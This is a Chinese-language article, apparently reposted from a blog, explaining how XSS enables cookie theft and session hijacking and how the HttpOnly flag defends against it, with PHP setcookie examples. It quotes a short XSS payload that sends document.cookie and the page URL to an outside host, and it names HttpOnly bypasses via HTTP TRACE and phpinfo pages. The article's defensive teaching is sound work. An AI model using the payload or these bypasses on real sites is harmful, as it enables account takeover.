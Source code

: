 [原文链接](http://kb.cnblogs.com/page/115136/)
	随着www服务的兴起，越来越多的应用程序转向了B/S结构，这样只需要一个浏览器就可以访问各种各样的web服务，但是这样也越来越导致了越来越多的web安全问题。www服务依赖于Http协议实现，Http是无状态的协议，所以为了在各个会话之间传递信息，就不可避免地用到Cookie或者Session等技术来标记访问者的状态，而无论是Cookie还是Session，一般都是利用Cookie来实现的(Session其实是在浏览器的Cookie里带了一个Token来标记，服务器取得了这个Token并且检查合法性之后就把服务器上存储的对应的状态和浏览器绑定)，这样就不可避免地安全聚焦到了Cookie上面，只要获得这个Cookie，就可以取得别人的身份，这对于入侵者是一件很美妙的事情，特别当获得的Cookie属于管理员等高权限身份者时，危害就更大了。在各种web安全问题里，其中xss漏洞就因此显得格外危险。
	对于应用程序来说，一旦存在了xss漏洞就意味着别人可以在你的浏览器中执行任意的js脚本，如果应用程序是开源的或者功能是公开的话，别人就可以利用ajax使用这些功能，但是过程往往很烦琐，特别是想直接获得别人身份做随意浏览的话困难就更大。而对于不开源的应用程序，譬如某些大型站点的web后台(web2.0一个显著的特征就是大量的交互，用户往往需要跟后台的管理员交互，譬如Bug汇报，或者信息投递等等)，尽管因为交互的存在可能存在跨站脚本漏洞，但是因为对后台的不了解，无法构造完美的ajax代码来利用，即使可以用js取得后台的代码并回传分析，但是过程同样烦琐而且不隐蔽。这个时候，利用xss漏洞获得Cookie或者Session劫持就很有效了，具体分析应用程序的认证，然后使用某些技巧，甚至可以即使对方退出程序也一样永久性获得对方的身份。
	那么如何获得Cookie或者Session劫持呢?在浏览器中的document对象中，就储存了Cookie的信息，而利用js可以把这里面的Cookie给取出来，只要得到这个Cookie就可以拥有别人的身份了。一个很典型的xss攻击语句如下：
````  
　　xss exp:
　　url=document.top.location.href;
　　cookie=document.cookie;
　　c=new Image();
　　c.src=’http://www.loveshell.net/c.php?c=’+cookie+’&u=’+url;
````  

　　一些应用程序考虑到这个问题所在，所以可能会采取浏览器绑定技术，譬如将Cookie和浏览器的User-agent绑定，一旦发现修改就认为Cookie失效。这种方法已经证明是无效的，因为当入侵者偷得Cookie的同时他肯定已经同时获得了User-agent。还有另外一种比较严格的是将Cookie和Remote-addr相绑定(其实就是和IP绑定，但是一些程序取得IP的方法有问题一样导致饶过)，但是这样就带来很差的用户体验，更换IP是经常的事，譬如上班与家里就是2个IP，所以这种方法往往也不给予采用。所以基于Cookie的攻击方式现在就非常流行，在一些web 2.0站点很容易就取到应用程序的管理员身份。
　　
	如何保障我们的敏感Cookie安全呢?通过上面的分析，一般的Cookie都是从document对象中获得的，我们只要让敏感Cookies浏览器document中不可见就行了。很幸运，现在浏览器在设置Cookie的时候一般都接受一个叫做HttpOnly的参数，跟domain等其他参数一样，一旦这个HttpOnly被设置，你在浏览器的document对象中就看不到Cookie了，而浏览器在浏览的时候不受任何影响，因为Cookie会被放在浏览器头中发送出去(包括ajax的时候)，应用程序也一般不会在js里操作这些敏感Cookie的，对于一些敏感的Cookie我们采用HttpOnly，对于一些需要在应用程序中用js操作的cookie我们就不予设置，这样就保障了Cookie信息的安全也保证了应用。关于HttpOnly说明可以参照 http://msdn2.microsoft.com/en-us/library/ms533046.aspx。

　　给浏览器设置Cookie的头如下：
```` 
　　Set-Cookie: =[; =]
　　[; expires=][; domain=]
　　[; path=][; secure][; HttpOnly]
````   　　
以php为例，在php 5.2版本时就已经在Setcookie函数加入了对HttpOnly的支持，譬如：
````    
setcookie("abc","test",NULL,NULL,NULL,NULL,TRUE);
````  
　　就可以设置abc这个cookie，将其设置为HttpOnly，document将不可见这个Cookie。因为setcookie函数本质就是个header，所以一样可以使用header来设置HttpOnly。然后再使用document.cookie就可以看到已经取不到这个Cookie了。我们用这种方法来保护利例如Sessionid，如一些用于认证的auth-cookie，就不用担心身份被人获得了，这对于一些后台程序和webmail提升安全性的意义是重大的。再次使用上面的攻击手法时可以看到，已经不能获取被我们设置为HttpOnly的敏感Cookie了。
	但是，也可以看到HttpOnly并不是万能的，首先它并不能解决xss的问题，仍然不能抵制一些有耐心的黑客的攻击，也不能防止入侵者做ajax提交，甚至一些基于xss的proxy也出现了，但是已经可以提高攻击的门槛了，起码xss攻击不是每个脚本小子都能完成的了，而且其他的那些攻击手法因为一些环境和技术的限制，并不像Cookie窃取这种手法一样通用。
	HttpOnly也是可能利用一些漏洞或者配置Bypass的，关键问题是只要能取到浏览器发送的Cookie头就可以了。譬如以前出现的Http Trace攻击就可以将你的Header里的Cookie回显出来，利用ajax或者flash就可以完成这种攻击，这种手法也已经在ajax和flash中获得修补。另外一个关于配置或者应用程序上可能Bypass的显著例子就是phpinfo，大家知道phpinfo会将浏览器发送的http头回显出来，其中就包括我们保护的auth信息，而这个页面经常存在在各种站点上，只要用ajax取phpinfo页面，取出header头对应的部分就可以获得Cookie了。一些应用程序的不完善也可能导致header头的泄露，这种攻击方式对于basic验证保护的页面一样可以攻击。
	HttpOnly在IE 6以上，Firefox较新版本都得到了比较好的支持，并且在如Hotmail等应用程序里都有广泛的使用，并且已经是取得了比较好的安全效果。
